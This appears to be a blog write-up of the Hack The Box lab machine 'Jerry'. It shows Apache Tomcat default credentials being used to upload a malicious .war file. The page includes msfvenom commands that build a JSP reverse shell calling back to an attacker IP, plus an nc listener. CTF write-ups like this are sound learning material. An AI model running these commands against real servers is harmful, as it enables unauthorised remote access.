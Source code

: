 <br/>
<img src="{{ site.img_path }}/jerry_writeup/Jerry_00.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jerry_writeup/Jerry_01.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jerry_writeup/Jerry_02.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I've already made several **Hack The Box** machines and exploited an **Apache Tomcat** server, but for someone just starting out in the field of **Informatic Security**, there is **[HackTricks](https://book.hacktricks.xyz/){:target="_blank"}**, which has all the information and resources if you have any questions, I always go to this site. There is an article, **[Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat){:target="_blank"}**, that gives me all the information and articles I can read to understand how to exploit the vulnerability. There is an **Information Leak** on the web page, which not only tells me the **Apache Tomcat** server version, it also shows me the default credentials. Once I sign-in, I check that I have the ability to upload a `.war` file.

<br/>
<img src="{{ site.img_path }}/jerry_writeup/Jerry_03.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jerry_writeup/Jerry_04.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now that I have the possibility to upload files to the server, I only have to use `msfvenom` to create an exploit to send a **Reverse Shell** to my terminal, I open a port with `nc` in listening mode, load the malicious `.war` and access from the browser to the resource, I was able to access the **Windows** machine.

```bash
msfvenom -l payload | grep java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war -o reverse.war

rlwrap nc -nlvp 443
```

<br/>
<img src="{{ site.img_path }}/jerry_writeup/Jerry_05.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jerry_writeup/Jerry_06.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jerry_writeup/Jerry_07.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jerry_writeup/Jerry_08.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
